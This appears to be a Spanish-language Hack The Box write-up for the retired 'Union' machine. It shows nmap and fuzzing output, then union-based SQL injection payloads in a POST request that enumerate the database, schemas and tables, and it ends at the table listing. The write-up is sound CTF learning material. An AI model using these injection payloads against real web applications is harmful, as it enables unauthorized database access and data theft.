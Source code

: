 ```yaml
---
layout: post
title:  "Maquina  Retirada Union de Hack The Box (Necesario VIP)"
description: En esta ocasion empezaremos con el Writeup de la maquina de HackTheBox llamada UNION
tags: HTB, SQLI, Local File Inclusion, Web Hacking, Maquinas Retiradas, Writeup
---
```


# Union - SQLI ~ Hack The Box

Realizamos el Primer escaneo con Nmap
```bash
$" nmap -p- --open -sS --min-rate 4000 -vvv -n -Pn 10.10.11.128 -oG allports        "
``` 
Procedemos con el siguiente escaneo de Nmap
```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
``` 

Procedemos a realizar fuzzing a nivel web para ver distintas rutas.

```bash
Target: http://10.10.11.128/FUZZ.php
Total requests: 220547

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                     
=====================================================================

000000002:   200        42 L     93 W       1220 Ch     "index"                                                                                                                     
000000868:   200        0 L      2 W        13 Ch       "firewall"                                                                                                                  
000001477:   200        0 L      0 W        0 Ch        "config"                                                                                                                    
000004086:   200        20 L     61 W       772 Ch      "challenge"
``` 

Procedemos a intentar inyectar una Injeccion SQL con los siguientes QUERIES

```bash
POST /index.php HTTP/1.1
Host: 10.10.11.128
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 41
Origin: http://10.10.11.128
Connection: close
Referer: http://10.10.11.128/
Cookie: PHPSESSID=2psodrt3sdefasmqoqe6mbuev5

"player=admin' union select database()-- -       "
```

Vemos que recibimos como respuesta:

```bash
datbase: november
```
Siguiente Inyeccion SQLI para enumerar las bases de Datos que corren por detras. Usamos `group_concat()` para enumerar toda la informacion
en un solo o mismo campo

```bash
player=admin' union select group_concat(schema_name) from information_schema.schemata-- -
```

Respuesta

```bash
mysql, information_schema, performance_schema, sys, november 
``` 

Procedemos a enumerar las tablas para la base de datos `November` :
```bash
player=admin' union select group_concat(table_name,':') from information_schema.tables where table_schema="november"-- -
```

Respuesta de la siguiente consulta SQLI para enumerar las tablas en la base de datos `November`
```bash
tablas --  flag:players
``` 
